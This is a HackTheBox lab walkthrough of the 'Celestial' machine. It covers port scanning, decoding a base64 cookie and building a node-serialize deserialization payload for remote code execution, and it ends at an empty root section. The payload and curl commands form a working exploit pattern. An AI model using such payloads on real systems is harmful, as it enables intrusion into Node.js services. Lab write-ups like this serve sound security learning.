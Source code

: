 ```yaml
---
layout: post
title: Hackthebox Celestial Walkthrough
categories: HackTheBox
---
```


![placeholder](https://inar1.github.io/public/images/2019-09-22/celestial-badge.png)
## Explanation
<a href="https://www.hackthebox.eu">Hackthebox</a> is a website which has a bunch of vulnerable machines in its own VPN.<br>
This is a walkthrough of a machine "Celestial" on that website.<br>

### Complation
48th / 131 boxes

## Solution
### 1. Initial Enumeration

TCP Port Scanning:
{% highlight shell %}
root@kali:~# nmap -p- 10.10.10.85 -sV -sC
Starting Nmap 7.80 ( https://nmap.org ) at 2019-09-22 11:46 EEST
Nmap scan report for 10.10.10.85
Host is up (0.039s latency).
Not shown: 65534 closed ports
PORT     STATE SERVICE VERSION
3000/tcp open  http    Node.js Express framework
|_http-title: Site doesn't have a title (text/html; charset=utf-8).

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 2743.74 seconds
{% endhighlight %}

gobuster port 3000:
{% highlight shell %}
root@kali:~# gobuster dir -u http://10.10.10.85:3000 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .js
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.85:3000
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     js
[+] Timeout:        10s
===============================================================
2019/09/23 00:13:30 Starting gobuster
===============================================================
===============================================================
2019/09/23 00:43:06 Finished
===============================================================
{% endhighlight %}

### 2. Getting User

By accessing the website on port 3000, we can find unique coolkie base64 encoded.
{% highlight shell %}
root@kali:~# curl http://10.10.10.85:3000 -i
HTTP/1.1 200 OK
X-Powered-By: Express
Set-Cookie: profile=eyJ1c2VybmFtZSI6IkR1bW15IiwiY291bnRyeSI6IklkayBQcm9iYWJseSBTb21ld2hlcmUgRHVtYiIsImNpdHkiOiJMYW1ldG93biIsIm51bSI6IjIifQ%3D%3D; Max-Age=900; Path=/; Expires=Sun, 29 Sep 2019 06:39:17 GMT; HttpOnly
Content-Type: text/html; charset=utf-8
Content-Length: 12
ETag: W/"c-8lfvj2TmiRRvB7K+JPws1w9h6aY"
Date: Sun, 29 Sep 2019 06:24:17 GMT
Connection: keep-alive

<h1>404</h1>
{% endhighlight %}

Then, try to decode. Since '%3D' is url encoded value of '=', we have to decode it manually.
{% highlight shell %}
root@kali:~# echo 'eyJ1c2VybmFtZSI6IkR1bW15IiwiY291bnRyeSI6IklkayBQcm9iYWJseSBTb21ld2hlcmUgRHVtYiIsImNpdHkiOiJMYW1ldG93biIsIm51bSI6IjIifQ==' | base64 -d
{"username":"Dummy","country":"Idk Probably Somewhere Dumb","city":"Lametown","num":"2"}
{% endhighlight %}

We found some parameters in the cookie.<br>
Then, fuzz this node.js webapp with sending some special values in the cookie.<br>
We can find that if we send "+" as special number, we get following syntax error.
{% highlight shell %}
root@kali:~# echo -n '{"username":"Dummy","country":"Idk Probably Somewhere Dumb","city":"Lametown","num":"2+"}' | base64
eyJ1c2VybmFtZSI6IkR1bW15IiwiY291bnRyeSI6IklkayBQcm9iYWJseSBTb21ld2hlcmUgRHVt
YiIsImNpdHkiOiJMYW1ldG93biIsIm51bSI6IjIrIn0=
{% endhighlight %}
{% highlight shell %}
root@kali:~# curl http://10.10.10.85:3000 -i --cookie 'profile=eyJ1c2VybmFtZSI6IkR1bW15IiwiY291bnRyeSI6IklkayBQcm9iYWJseSBTb21ld2hlcmUgRHVtYiIsImNpdHkiOiJMYW1ldG93biIsIm51bSI6IjIrIn0='
HTTP/1.1 500 Internal Server Error
X-Powered-By: Express
Content-Security-Policy: default-src 'self'
X-Content-Type-Options: nosniff
Content-Type: text/html; charset=utf-8
Content-Length: 1074
Date: Fri, 04 Oct 2019 15:28:48 GMT
Connection: keep-alive

<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="utf-8">
<title>Error</title>
</head>
<body>
<pre>SyntaxError: Unexpected end of input<br> &nbsp; &nbsp;at /home/sun/server.js:13:29<br> &nbsp; &nbsp;at Layer.handle [as handle_request] (/home/sun/node_modules/express/lib/router/layer.js:95:5)<br> &nbsp; &nbsp;at next (/home/sun/node_modules/express/lib/router/route.js:137:13)<br> &nbsp; &nbsp;at Route.dispatch (/home/sun/node_modules/express/lib/router/route.js:112:3)<br> &nbsp; &nbsp;at Layer.handle [as handle_request] (/home/sun/node_modules/express/lib/router/layer.js:95:5)<br> &nbsp; &nbsp;at /home/sun/node_modules/express/lib/router/index.js:281:22<br> &nbsp; &nbsp;at Function.process_params (/home/sun/node_modules/express/lib/router/index.js:335:12)<br> &nbsp; &nbsp;at next (/home/sun/node_modules/express/lib/router/index.js:275:10)<br> &nbsp; &nbsp;at cookieParser (/home/sun/node_modules/cookie-parser/index.js:70:5)<br> &nbsp; &nbsp;at Layer.handle [as handle_request] (/home/sun/node_modules/express/lib/router/layer.js:95:5)</pre>
</body>
</html>
{% endhighlight %}

On the other hand, if we send following as a payload, we don't get this syntax error
{% highlight shell %}
root@kali:~# echo -n '{"username":"Dummy","country":"Idk Probably Somewhere Dumb","city":"Lametown","num":"2+2"}' | base64
eyJ1c2VybmFtZSI6IkR1bW15IiwiY291bnRyeSI6IklkayBQcm9iYWJseSBTb21ld2hlcmUgRHVt
YiIsImNpdHkiOiJMYW1ldG93biIsIm51bSI6IjIrMiJ9
{% endhighlight %}
{% highlight shell %}
root@kali:~# curl http://10.10.10.85:3000 -i --cookie 'profile=eyJ1c2VybmFtZSI6IkR1bW15IiwiY291bnRyeSI6IklkayBQcm9iYWJseSBTb21ld2hlcmUgRHVtYiIsImNpdHkiOiJMYW1ldG93biIsIm51bSI6IjIrMiJ9'
HTTP/1.1 200 OK
X-Powered-By: Express
Content-Type: text/html; charset=utf-8
Content-Length: 25
ETag: W/"19-TNVBDF0e2JD28Mnzt96ajQ0A3vw"
Date: Fri, 04 Oct 2019 15:37:37 GMT
Connection: keep-alive

Hey Dummy 2+2 + 2+2 is 26
{% endhighlight %}

This means the value of "num" is not used as strings and is used as an argument of eval() or something.<br>
More precisely, the value of "num" is serialized on the web server.<br>
Then, google like following. We can find this blog <a href="https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/">Exploiting Node.js deserialization bug for Remote Code Execution</a>
{% highlight shell %}
nodejs serialization exploit
{% endhighlight %}

According to that blog, to build the payload for RCE, we need following node.js code and run it.
{% highlight shell %}
root@kali:~# cat buildRCE.js 
var y = {
 rce : function(){
 require('child_process').exec('uname -a', function(error, stdout, stderr) { console.log(stdout) });
 },
}
var serialize = require('node-serialize');
console.log("Serialized: \n" + serialize.serialize(y));
{% endhighlight %}
{% highlight shell %}
root@kali:~# node buildRCE.js 
Serialized: 
{"rce":"_$$ND_FUNC$$_function(){\n require('child_process').exec('uname -a', function(error, stdout, stderr) { console.log(stdout) });\n }"}
{% endhighlight %}

Now we had a RCE part of our exploit.<br>
By combining previous JSON and this serialized RCE code, we can obtain the payload.
{% highlight shell %}
{"username":"Dummy","country":"Idk Probably Somewhere Dumb","city":"Lametown","num":"_$$ND_FUNC$$_function(){\n require('child_process').exec('uname -a', function(error, stdout, stderr) { console.log(stdout) });\n }()"}
{% endhighlight %}
{% highlight shell %}

{% endhighlight %}

### 3. Getting Root


